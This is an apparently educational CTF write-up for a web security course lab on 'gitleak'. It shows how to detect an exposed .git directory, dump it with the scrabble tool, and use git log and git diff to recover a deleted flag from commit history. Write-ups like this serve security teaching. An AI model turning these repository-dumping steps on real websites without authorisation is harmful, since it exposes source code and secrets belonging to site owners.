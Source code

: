 ```yaml
---
title: Simple Web 0x01(Lab - `gitleak`)
tags: [CTF, Web, NTUSTWS]

category: "Security > Course > NTUST WS > Information Leak"
---
```


# Simple Web 0x01(Lab - `gitleak`)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9000/

## Exploit - gitleak + basic Git command
1. Use the extension of Firefox(or Google), `Dotgit`, to check if the website actually has `git leak problem`
![](https://i.imgur.com/ZtMbj9z.png)

2.  denny0223/scrabble
To use scrabble tool to leak information
    ```bash!
    $ git clone https://github.com/denny0223/scrabble.git
    $ cd scrabble
    $ sudo ./scrabble http://h4ck3r.quest:9000/
    ```
3. Still no flag
There's `flag.php` but still no flag in there. `HEAD` said `HEAD is now at a0228bd Remove flag.`
Thus, we can look up the history by the command below.
    ```bash!
    $ git log --stat a0228bd
    commit a0228bd6ff968f3eca017125a5434b517ad2a83a (HEAD -> master)
    Author: splitline <tbsthitw@gmail.com>
    Date:   Wed Mar 9 16:23:46 2022 +0800

        Remove flag.

     flag.php | 2 +-
     1 file changed, 1 insertion(+), 1 deletion(-)

    commit 6cfe38db75ec90126f53088ea87c286c83c1bfb3
    Author: splitline <tbsthitw@gmail.com>
    Date:   Wed Mar 9 16:23:15 2022 +0800

        Init

     flag.php  | 5 +++++
     index.php | 1 +
     2 files changed, 6 insertions(+)
    ```
4. Check the difference of commit version
    ```bash!
    $ git diff HEAD <commit-id>
    diff --git a/flag.php b/flag.php
    index d1f8785..5b6cf79 100644
    --- a/flag.php
    +++ b/flag.php
    @@ -1,5 +1,5 @@
     <?php
    -// No flag for you!
- [ ]     +$FLAG = "FLAG{gitleak_is_fun}";
     ?>

     Flag is in the source code.
    \ No newline at end of file
    ```